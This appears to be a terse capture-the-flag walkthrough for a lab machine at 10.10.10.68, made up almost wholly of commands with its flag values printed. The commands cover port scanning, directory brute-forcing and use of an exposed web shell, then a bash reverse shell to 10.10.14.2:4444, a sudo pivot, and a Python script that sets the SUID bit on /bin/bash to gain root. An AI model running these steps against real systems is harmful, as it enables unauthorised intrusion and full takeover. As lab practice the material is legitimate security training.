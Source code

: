 furious 10.10.10.68

nmap -sC -sV -Pn -n -p80 10.10.10.68 -oN targeted

wfuzz -c --hc 404 -t 100 -w /usr/share/dirb/wordlists/common.txt http://10.10.10.68/

http://10.10.10.68/dev/phpbash.php

echo "bash -i >& /dev/tcp/10.10.14.2/4444 0>&1" > shell.sh

sudo python3 -m http.server 80

sudo -l

sudo -u scriptmanager bash

cat /home/arrexel/user.txt

## user
2c281f318555dbc1b856957c7147bfc1

find / type f -user scriptmanager 2>/dev/null

nano /scripts/test.py

```python3
import os
os.system("chmod 4755 /bin/bash")
```

ls -l
bash -p

cat /root/root.txt
## root
cc4f0afe3a1026d402ba10329674a8e2

![gcore.png](gcore.png)
